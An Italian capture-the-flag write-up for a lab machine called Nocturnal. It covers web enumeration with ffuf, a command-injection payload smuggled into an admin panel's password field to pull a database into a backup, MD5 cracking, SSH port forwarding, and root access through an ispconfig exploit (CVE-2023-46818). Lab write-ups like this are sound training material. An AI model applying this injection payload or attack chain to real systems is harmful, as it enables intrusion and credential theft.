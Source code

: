 # Nocturnal🌠

## 📝 Introduzione

In questa writeup vengono descritte le operazioni eseguite per ottenere le flag `user.txt` e `root.txt` sulla macchina target (10.10.11.64)

---

## 🛠️ Strumenti e Tecniche Utilizzate

* **ffuf**: per l’enumerazione del web
* **Code injection** nel campo password dell’admin panel
* **crackstation.net**: per cracking MD5 dell’utente `tobias`
* **ssh & port forwarding**
* **netstat**: per identificare servizi in ascolto
* **Script CVE-2023-46818**: exploit locale per ispconfig

---

## 🔍 1. Enumerazione con ffuf

```bash
ffuf -u http://nocturnal.htb/view.php?username=FUZZ&file=test.txt -w wordlist.txt
```

* **Risultato**: username trovato → `Amanda`

---

## 🔑 2. Accesso con Amanda e Download `privacy.odt`

1. **Trovato file**: `privacy.odt`
2. **Password estratta**: `arH[REDACTED]s1J`

---

## 🛡️ 3. Admin Panel & Code Injection

* Vulnerabilità individuata nel campo **password** dell’admin panel.
* **Obiettivo**: includere nel backup il file `../nocturnal_database/nocturnal_database.db`.

**Payload utilizzato**:

```
faze%09backups/backup_2025-05-06.zip%09-j%09../nocturnal_database/nocturnal_database.db%09.%09#comment
```

* Viene creato un backup contenente `nocturnal_database.db`.

---

## 🛠️ 4. Cracking dell’utente `tobias`

* Hash MD5 ottenuta: `55c82b1ccd55ab219b3b109b07d5061d`
* **Password trovata** su CrackStation: `slo[REDACTED]se`

---

## 🚪 5. Accesso SSH e Lettura `user.txt`

```bash
ssh tobias@10.10.11.64
# Password: slo[REDACTED]se
cat user.txt
[REDACTED]
```

---

## 🔄 6. Port Forwarding & Servizio Locale

1. **Individuazione servizi**:

   ```bash
   netstat -tuln
   ```

   * Servizio in ascolto: `127.0.0.1:8080`

2. **Port forwarding**:

   ```bash
   ssh -L 8080:127.0.0.1:8080 tobias@10.10.11.64
   ```

3. **Visita**: [http://127.0.0.1:8080](http://127.0.0.1:8080)

   * Login: `tobias:slo[REDACTED]se`

---

## 🌐 7. Exploit ispconfig (CVE-2023-46818)

* Trovata CVE: `CVE-2023-46818` per ispconfig
* **Script** copiato in locale e eseguito

```bash
ispconfig-shell# whoami
root

ispconfig-shell# find / -name root.txt 2>/dev/null
/root/root.txt

ispconfig-shell# cat /root/root.txt
[REDACTED]
```



